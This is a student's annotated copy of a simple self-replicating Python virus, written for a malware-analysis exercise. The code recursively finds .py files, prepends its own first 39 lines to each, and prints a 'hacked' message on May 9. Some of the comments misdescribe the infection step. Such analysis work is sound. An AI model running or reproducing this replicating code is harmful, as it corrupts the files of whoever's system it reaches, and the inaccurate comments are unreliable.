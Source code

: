 # Script:                       Ops Challenge 14
# Author:                       Matt Hoos
# Date of latest revision:      9/16/22
# Purpose:                      Python Malware Analysis on someone else's code

##*****-------  DO NOT RUN THIS  ------*****

#!/usr/bin/python
# Load Python and import the OS and DATETIME Libraries
import os
import datetime

# Define a variable named SIGNATURE and set it to VIRUS
SIGNATURE = "VIRUS"

# Define a function called locate which identifies a list of files as targets and sorts out previously infected files.
def locate(path):
    files_targeted = []  # Creates an empty array
    filelist = os.listdir(path)  # Get list of files from the current folder
    for fname in filelist:  # Loop through all files in the filelist
        if os.path.isdir(path+"/"+fname):  # Check if path is an existing directory
            files_targeted.extend(locate(path+"/"+fname))  # Adds this current path and files to the files_targeted list
        elif fname[-3:] == ".py":  # Check if the file is Python and has the signature, if so break, else add it to the list
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)  # Adds file to list if it is not tagged as infected
    return files_targeted  # Returns the newly inflated files_targeted list

# Define function infect and enumerate list of files_targeted, then write 39 blank lines into the beginning of the file
def infect(files_targeted):
    virus = open(os.path.abspath(__file__))  # Select the file
    virusstring = ""  # Set a blank line
    for i,line in enumerate(virus):  # For each line in a file up to line 39, loop
        if 0 <= i < 39:
            virusstring += line  # Add the contents of the first 39 lines to the variable virusstring
    virus.close
    for fname in files_targeted:  # For each file in the list, read the contents fo the file
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")  # while in the for loop, write the contents
        f.write(virusstring + temp)  # but include the first 39 lines from the first selected file
        f.close()

# Define function to check that the date is May 9th and print the message.
def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:  # Test if the month and day are 5 and 9
        print "You have been hacked"


# First line gathers the filelist from the current path
# Second line bloats the files
# Third line prints a message on the 9th of May
files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

# Perform an analysis of the Python-based code.
# Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
# Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
# Insert comments above the final three lines explaining how the functions are called and what this script appears to do.
